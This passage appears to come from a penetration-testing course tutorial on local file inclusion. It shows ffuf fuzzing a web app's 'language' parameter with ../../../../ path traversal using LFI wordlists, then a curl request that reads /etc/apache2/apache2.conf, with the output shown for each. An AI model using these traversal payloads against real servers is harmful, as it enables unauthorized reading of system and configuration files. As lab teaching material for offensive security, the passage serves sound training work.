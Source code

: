 To do so, we may also use the [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt) wordlist, as it contains many of the server logs and configuration paths we may be interested in. If we wanted a more precise scan, we can use this [wordlist for Linux](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Linux) or this [wordlist for Windows](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/main/LFI-WordList-Windows), though they are not part of `seclists`, so we need to download them first. Let's try the Linux wordlist against our LFI vulnerability, and see what we get:

```shell-session
root@htb[/htb]$ ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287

...SNIP...

 :: Method           : GET
 :: URL              : http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ
 :: Wordlist         : FUZZ: ./LFI-WordList-Linux
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 2287
________________________________________________

/etc/hosts              [Status: 200, Size: 2461, Words: 636, Lines: 72]
/etc/hostname           [Status: 200, Size: 2300, Words: 634, Lines: 66]
/etc/login.defs         [Status: 200, Size: 12837, Words: 2271, Lines: 406]
/etc/fstab              [Status: 200, Size: 2324, Words: 639, Lines: 66]
/etc/apache2/apache2.conf [Status: 200, Size: 9511, Words: 1575, Lines: 292]
/etc/issue.net          [Status: 200, Size: 2306, Words: 636, Lines: 66]
...SNIP...
/etc/apache2/mods-enabled/status.conf [Status: 200, Size: 3036, Words: 715, Lines: 94]
/etc/apache2/mods-enabled/alias.conf [Status: 200, Size: 3130, Words: 748, Lines: 89]
/etc/apache2/envvars    [Status: 200, Size: 4069, Words: 823, Lines: 112]
/etc/adduser.conf       [Status: 200, Size: 5315, Words: 1035, Lines: 153]
```

As we can see, the scan returned over 60 results, many of which were not identified with the [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt) wordlist, which shows us that a precise scan is important in certain cases. Now, we can try reading any of these files to see whether we can get their content. We will read (`/etc/apache2/apache2.conf`), as it is a known path for the apache server configuration:

```shell-session
root@htb[/htb]$ curl http://<SERVER_IP>:<PORT>/index.php?language=../../../../etc/apache2/apache2.conf

...SNIP...
        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html

        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined
...SNIP...
```

